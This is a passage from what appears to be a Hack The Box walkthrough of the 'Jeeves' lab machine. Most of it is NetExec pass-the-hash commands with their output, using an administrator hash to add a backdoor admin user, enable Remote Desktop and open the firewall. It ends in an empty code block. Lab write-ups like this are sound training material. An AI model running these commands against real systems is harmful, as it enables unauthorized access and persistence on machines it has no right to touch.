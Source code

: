 Like I thought, that failed. We're going to have to do this the hard way...

Since we have command execution as an admin, what we can do is create a user, add it to the administrators group, and then turn on remote desktop. If your asking why don't we just transfer the file, it's because alternate data streams are strictly an NTFS thing. If we copy the file over, we lost the data stream. This may take a few tries, as this box seems kinda fidgety... but let's give it a shot.

First, let's create our user
```bash
nxc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' --local-auth -x 'net user /add chvxt3r test123' --exec-method smbexec
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [+] Executed command via smbexec
SMB         10.129.59.102   445    JEEVES           The command completed successfully.
```

Ok, next we need to be an administrator...
```bash
nxc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' --local-auth -x 'net localgroup administrators chvxt3r /add' --exec-method smbexec
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [+] Executed command via smbexec
SMB         10.129.59.102   445    JEEVES           The command completed successfully.
```

Had to run that one a couple of times. Now we have to start remote desktop. This is a registry change...
```bash
smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' --local-auth -x 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /f /v fDenyTSConnections /t REG_DWORD /d 0' --exec-method smbexec
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [+] Executed command via smbexec
SMB         10.129.59.102   445    JEEVES           The operation completed successfully.
```

Now we have to reconfigure windows firewall with the RDP exceptions
```bash
nxc smb 10.129.59.102 -u administrator -H 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb857[...snip...]238cbe81fe00' --local-auth -x 'netsh firewall set service remoteadmin enable' --exec-method smbexec
SMB         10.129.59.102   445    JEEVES           [*] Windows 10 Build 10586 x64 (name:JEEVES) (domain:JEEVES) (signing:False) (SMBv1:True) 
SMB         10.129.59.102   445    JEEVES           [+] JEEVES\administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
SMB         10.129.59.102   445    JEEVES           [+] Executed command via smbexec
SMB         10.129.59.102   445    JEEVES           IMPORTANT: Command executed successfully.
SMB         10.129.59.102   445    JEEVES           However, "netsh firewall" is deprecated;
SMB         10.129.59.102   445    JEEVES           use "netsh advfirewall firewall" instead.
SMB         10.129.59.102   445    JEEVES           For more information on using "netsh advfirewall firewall" commands
SMB         10.129.59.102   445    JEEVES           instead of "netsh firewall", see KB article 947709
SMB         10.129.59.102   445    JEEVES           at http://go.microsoft.com/fwlink/?linkid=121488 .
SMB         10.129.59.102   445    JEEVES           Ok.
```
Then:
```bash
```